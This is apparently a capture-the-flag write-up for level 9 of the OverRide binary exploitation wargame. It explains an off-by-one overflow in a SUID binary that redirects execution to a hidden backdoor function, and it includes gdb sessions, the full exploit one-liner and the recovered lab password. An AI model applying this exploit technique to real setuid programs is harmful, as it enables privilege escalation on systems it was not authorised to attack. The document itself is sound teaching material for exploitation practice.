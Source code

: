 # Level 9

## Vulnerability

Off-by-one error allows buffer overflow

## Context

We find a binary with owner ```end``` and SUID.
```
level09@OverRide:~$ ls -l
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

When run it prompts user for a username, and a message which is supposedly sent to *Unix-Dude*.
```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: Drew
>: Welcome, Drew
>: Msg @Unix-Dude
>>: Dear Unix-Dude, lots of love, Drew
>: Msg sent!
level09@OverRide:~$
```

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level09/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

## Solution

### Overview

The binary simply prompts for, then copies, username and a message.

Investigating with gdb we find a hidden function ```secret_backdoor()```, which reads to a buffer from stdin, then calls ```system()``` with the buffer. Obviously we would like to jump to ```secret_backdoor()``` somehow, and enter ```/bin/sh``` on stdin, to open a shell.

### Off-by-one error

The copy username loop has an off-by-one error, which allows the user to overwrite the ```len_message``` variable by one byte.

A larger ```len_message``` than the default 140 can cause strncpy to overflow the buffer when copying the *Msg*.

So let's fill the 40 byte username buffer then overflow by 1 byte into ```len_message```, writing the maximum 1 byte value ```0xff```.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude

>>: >: Msg sent!

Segmentation fault (core dumped)
```
Great, its segfaults.

### Find RSP offset

Can we overflow and overwrite the return address with the address of ```secret_backdoor()```?

Since the binary was compiled in 64-bit, RSP (not EIP) is the return address register.

[Using this buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and the following example in gdb, we find we start to overwrite RSP after 200 bytes.
```
level09@OverRide:~$ gdb -q level09
...
(gdb) run
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah
>: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp                                              // RSP return address
0x7fffffffe588:	 "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"  // We find this string in the pattern string above after 200 characters
```

### Find secret_backdoor address

Finally we need to find the address of ```secret_backdoor()```.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

### Build exploit

So we build our exploit string:
1. 40 byte username buffer, until overflow ```len``` - ```"A" * 40```
2. 1 byte, max value, overwrite ```len``` - ```\xff```
3. new line, enter unsername - ```\n```
4. 200 byte msg buffer, until overflow RSP - ```"A" * 200```
5. overwrite RSP with address of ```secret_backdoor()``` - ```\x8c\x48\x55\x55\x55\x55\x00```
6. new line, enter msg - ```\n```
7. system() open shell command - ```/bin/sh```

Let's pipe our exploit string into the binary stdin.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## End

Let's log in to user ```end```.
```
level09@OverRide:~$ su end
Password: j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
```
Good Game !
